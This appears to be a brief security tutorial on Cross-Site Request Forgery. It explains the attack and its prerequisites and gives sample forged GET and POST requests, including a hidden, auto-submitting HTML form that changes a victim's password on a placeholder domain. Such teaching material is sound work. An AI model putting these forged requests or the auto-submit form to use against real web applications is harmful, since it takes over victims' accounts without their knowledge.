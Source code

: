 # Cross Site Request Forgery (CSRF)

**Cross-Site Request Forgery (CSRF)** is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing.

  
# Overview and Prerequisites

- **Valuable Action:** One needs to find an action that is worth exploiting, such as, changing user information.
- **Session:** The user's session must only be managed by a cookie.

  
# Exploitation
**Both methods mentioned below can be distributed via *social engineering***

## GET

- This is a normal request to change a user's (`acc`) password (`new_pass`) on a platform
```
GET http://domain.com/action/?acc=test&new_pass=password123
```

- To exploit this and change the password of the victim, one can do this:
```
GET http://domain.com//action/?acc=victim&new_pass=newpassword123
```

  

## POST
- Basic request to change password
```
POST http://domain.com/action/

acc=test&new_pass=password123
```

- To exploit it, one needs to create a fake form which points to the URL that the they need with the attributes needed
```html
<form action="http://domain.com/action/" method="POST">
	<input type="hidden" name="acc" value="victim"/>
	<input type="hidden" name="new_pass" value="newpassword123"/>
	<input type="submit" value="THIS IS A CSRF ATTEMPT"/>
</form>
```

- Since the form needs to be sent, one can just make add an autosubmit functionality to the page:
```html
<body onload="document.forms[0].submit()">
```

  
  

## References

- [https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)
- [https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)
